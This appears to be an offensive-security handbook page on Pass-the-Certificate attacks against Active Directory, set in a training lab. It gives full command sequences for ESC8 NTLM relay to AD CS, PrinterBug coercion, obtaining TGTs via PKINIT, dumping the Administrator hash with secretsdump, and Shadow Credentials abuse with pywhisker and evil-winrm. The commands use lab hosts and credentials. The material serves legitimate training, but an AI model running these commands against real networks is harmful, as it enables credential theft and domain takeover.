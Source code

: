 ```yaml
---
title: "Pass the Certificate"
type: handbook
weight: 4
---
```


[`PKINIT`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pkca/d0cf1763-3541-4008-a75f-a577fa5e8c5b), short for `Public Key Cryptography for Initial Authentication`, is an extension of the Kerberos protocol that enables the use of public key cryptography during the initial authentication exchange. It is typically used to support user logons via smart cards, which store the private keys. `Pass-the-Certificate` refers to the technique of using X.509 certificates to successfully obtain Ticket Granting Tickets (TGTs). This method is used primarily alongside [attacks against Active Directory Certificate Services (AD CS)](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf), as well as in [Shadow Credential](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attacks.

### AD CS NTLM Relay Attack (ESC8)

`ESC8—as` described in the [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) paper—is an NTLM relay attack targeting an ADCS HTTP endpoint. ADCS supports multiple enrollment methods, `including web enrollment`, which by default occurs over HTTP. A certificate authority configured to allow web enrollment typically hosts the following application at `/CertSrv`:

![](PtC_1.webp)

Attackers can use Impacket’s [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) to listen for inbound connections and relay them to the web enrollment service using the following command:

```bash
impacket-ntlmrelayx -t http://10.129.234.110/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
```

One way to force machine accounts to authenticate against arbitrary hosts is by exploiting the [printer bug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py). 

```bash
python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.109 10.10.16.12

[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attempting to trigger authentication via rprn RPC at 10.129.234.109
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
[*] Triggered RPC backconnect, this may or may not have worked
```

We can now perform a `Pass-the-Certificate` attack to obtain a TGT as `DC01$`. One way to do this is by using [`gettgtpkinit.py`](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). First, let's clone the repository and install the dependencies:

```bash
git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
```

```bash
pip3 install -I git+https://github.com/wbond/oscrypto.git
Defaulting to user installation because normal site-packages is not writeable
Collecting git+https://github.com/wbond/oscrypto.git
<SNIP>
Successfully built oscrypto
Installing collected packages: asn1crypto, oscrypto
Successfully installed asn1crypto-1.5.1 oscrypto-1.3.0
```

```bash
python3 gettgtpkinit.py -cert-pfx ../krbrelayx/DC01\$.pfx -dc-ip 10.129.234.109 'inlanefreight.local/dc01$' /tmp/dc.ccache
```

```bash
export KRB5CCNAME=/tmp/dc.ccache
impacket-secretsdump -k -no-pass -dc-ip 10.129.234.109 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL
```

### Shadow Credentials (msDS-KeyCredentialLink)

[Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) refers to an Active Directory attack that abuses the [msDS-KeyCredentialLink](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attribute of a victim user. This attribute stores public keys that can be used for authentication via PKINIT. In BloodHound, the `AddKeyCredentialLink` edge indicates that one user has write permissions over another user's `msDS-KeyCredentialLink` attribute, allowing them to take control of that user.

![](PtC_2.webp)

We can use [pywhisker](https://github.com/ShutdownRepo/pywhisker) to perform this attack from a Linux system. The command below generates an `X.509 certificate` and writes the `public key` to the victim user's `msDS-KeyCredentialLink` attribute:

```bash
pywhisker --dc-ip 10.129.234.109 -d INLANEFREIGHT.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add
```

```bash
python3 gettgtpkinit.py -cert-pfx ../eFUVVTPf.pfx -pfx-pass 'bmRH4LK7UwPrAOfvIx6W' -dc-ip 10.129.234.109 INLANEFREIGHT.LOCAL/jpinkman /tmp/jpinkman.ccache
```

```bash
export KRB5CCNAME=/tmp/jpinkman.ccache
klist
```

```bash
evil-winrm -i dc01.inlanefreight.local -r inlanefreight.local
```

### NO PKINIT?

In certain environments, an attacker may be able to obtain a certificate but be unable to use it for pre-authentication as specific victims (e.g., a domain controller machine account) due to the KDC not supporting the appropriate EKU. The tool [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) was created for such situations. It can be used to authenticate against LDAPS using a certificate and perform various attacks (e.g., changing passwords or granting DCSync rights).
